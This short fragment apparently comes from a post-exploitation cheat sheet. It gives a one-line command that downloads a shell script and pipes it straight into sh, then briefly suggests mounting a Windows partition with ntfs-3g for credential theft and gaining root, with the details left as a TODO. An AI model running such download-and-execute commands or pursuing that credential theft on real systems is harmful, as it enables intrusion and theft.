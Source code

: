 <a name="remote_script"/><a>
### Execute a Remote Script

wget http://server/file.sh -O- | sh  
This command forces the download of a file and immediately its execution

<a name="windows"/><a>
### Fun if Windows is present and accessible
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.

**TODO**: insert details on what to look for